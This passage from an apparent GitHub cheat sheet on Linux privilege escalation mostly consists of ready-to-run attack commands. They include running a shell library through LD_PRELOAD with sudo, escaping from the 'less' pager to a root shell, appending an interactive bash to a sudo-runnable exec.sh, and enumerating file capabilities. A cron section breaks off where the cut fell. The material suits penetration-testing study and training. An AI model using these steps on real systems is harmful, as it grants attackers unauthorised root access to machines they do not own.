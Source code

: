   - Run it by using LD_Preload option  

```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

> This is also explained in this blog - https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

<hr style="width:100%;text-align:left;margin-center:0">

## Exploting Sudo Rights
  - To list the executable Binaries/files 👉🏿 `sudo -l`

![sudo -l](https://user-images.githubusercontent.com/85082756/149580032-d68641ca-96e2-4538-8032-7149d6c71111.png)

  - Now when we have the list of programs then we can search the following command in the [GFTObins](https://gtfobins.github.io/#+sudo)
    - for above we can use the less binary for gaing root access with the following command 👇
    - ```
      sudo less /etc/profile
      !/bin/sh
      ```
  - If you got any file like **exec.sh** then we can edit the contents inside it and we can execute it

```
echo "/bin/bash -i" >> exec.sh
```

```
sudo ./exec.sh
```

  > Check the following articles 👇

 - https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
 - https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/
 - **Abusing 'find', 'vim' and 'awk' for root access** - (https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/ )


<hr style="width:100%;text-align:left;margin-center:0">


## Through Capabilities
  - List all enabled Capabilities

```
getcap -r / 2>/dev/null
```

  - If you find any set capabilities then use GTFOBins and search your Binary name - https://gtfobins.github.io/#+capabilities

---

## Cron job configurations
  - Anyone can read the file cron jobs under 👇🏻
